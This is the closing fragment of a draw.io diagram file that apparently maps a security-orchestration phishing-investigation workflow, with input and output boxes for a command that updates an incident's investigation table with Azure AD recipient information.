        <mxCell id="NKeEgVbL9whLPdXC6YmX-139" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;Administrator&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-140" value="Unwind&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3120" y="540" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-142" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[&quot;&quot;]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Recipients Information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Get user information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;phish@d3soar.com&quot;,&quot;support@d3soar.com&quot;]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="880" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
